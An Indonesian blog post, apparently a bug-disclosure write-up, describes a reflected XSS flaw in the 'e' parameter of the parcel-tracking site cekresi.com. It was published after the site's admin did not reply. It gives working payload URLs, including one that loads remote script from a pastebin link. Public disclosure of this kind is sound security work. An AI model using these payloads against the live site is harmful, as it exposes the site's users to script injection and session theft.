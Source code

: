 ```yaml
---
title: "XSS on Cekresi.com"
author: "Tan My ID"
tags: ["Web", "WriteUp", "XSS"]
date: 2019-07-24T06:13:55+07:00
draft: false
---
```


Hai lur, kali ini sedikit tulisan tentang salah satu bug yang ku temukan pada website [CekResi.com](https://cekresi.com/) ya karena ndak ada balasan email dari dari admin web tersebut, ya udah aku **write up** ada dari pada ku simpan sendiri hehe.

{{< figure src="https://cekresi.com/images/cek-resi-logo.png" alt="cekresi.com">}}
CekResi.com sendiri adalah website yang populer untuk melakukan tracking barang yang dikirim atau diterima lewat nomer RESI yang di berikan dari kantor pemaketan.

Awal aku menemukan bug ini ketika disuruh atasanku mengecek resi pengiriman dokumen ke kantor pusat tempat aku bekerja, nah aku inget ada website [CekResi.com](https://cekresi.com/) untuk sekedar mentracking barang sudah sampai mana. Nah kumasukkan nomer resinya dan mengetahui bahwa paket sudah sampai ke Jakarta. Aku ingat disana ada form input nomer resi, ku coba isi dengan payload XSS sederhana, namun gagal.

Tidak berhenti di situ, aku mencoba menginstall firefox quantum dan hackbar quantum, kebetulan di sana ada **auto input parameter** dengan script XSS. Dan ternyata aku menemukan sebuah parameter dimana bisa di masukkan payload XSS.

Parameter yang ku temukan seperti berikut **https://cekresi.com/m/index?viewstate=&e=&noresi=** pada parameter `e=` disitu saya menyisipkan payload XSS sederhanya **&quot;&gt;&lt;script&gt;prompt(document.domain);&lt;/script&gt;** untuk memunculkan nama domain dari website **cekresi.com** sehingga url nya menjadi seperti ini :
```
https://cekresi.com/m/index?viewstate=&e="><script>prompt(document.domain);</script>&noresi=TAN
```
Berikut penampakannya :
{{< figure src="https://raw.githubusercontent.com/tanmyid/go-blog/master/img/xss-cekresi/xss-cekresi.png" alt="XSS ">}}

Tak sampai disitu, saya juga mencoba untuk menggunakan script html dalam XSS kali ini dan ternyata berhasil. Berikut payloadnya :
```
https://cekresi.com/m/index?viewstate=&e="><script src=https://pastebin.com/raw/mUBsAPXz/></script>&noresi=TAN
```
Berikut penampakannya :
{{< figure src="https://raw.githubusercontent.com/tanmyid/go-blog/master/img/xss-cekresi/xss-cekresi-2.png" alt="XSS ">}}

Eh iya lupa, ini hanya berlaku pada browser mozilla firefox ya, kalian pasti sudah tau alasannya dong. Nah semoga bermanfaat bagi kalian. Terima Kasih.
